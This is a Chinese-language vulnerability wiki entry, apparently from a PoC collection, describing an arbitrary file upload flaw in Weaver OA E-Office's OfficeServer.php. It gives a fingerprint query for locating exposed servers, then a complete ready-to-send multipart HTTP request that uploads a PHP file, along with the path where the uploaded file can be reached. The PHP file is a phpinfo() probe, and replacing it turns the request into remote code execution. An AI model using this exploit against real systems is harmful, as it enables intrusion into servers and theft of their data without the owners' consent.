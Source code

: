 # 泛微OA E-Office OfficeServer.php 任意文件上传漏洞

## 漏洞描述

泛微OA E-Office OfficeServer.php 存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器敏感信息

## 漏洞影响

<a-checkbox checked>泛微OA E-Office</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"eoffice10"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1664244931813-962fe535-f9cc-451e-9273-025d29d673df.png)

验证POC

```sql
POST /eoffice10/server/public/iWebOffice2015/OfficeServer.php HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 990
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLpoiBFy4ANA8daew
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FileData";filename="test.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FormData"

{'USERNAME':'admin','RECORDID':'undefined','OPTION':'SAVEFILE','FILENAME':'test.php'}
------WebKitFormBoundaryLpoiBFy4ANA8daew--
```

![img](/assets/PeiQi-Wiki/img/1664244962450-c8cb2723-109b-4090-95f1-dd250e2719a1.png)

文件上传位置

```sql
/eoffice10/server/public/iWebOffice2015/Document/test.php
```

![img](/assets/PeiQi-Wiki/img/1664245227470-24772f48-202e-402f-8e7f-3c63c2f1ed51.png)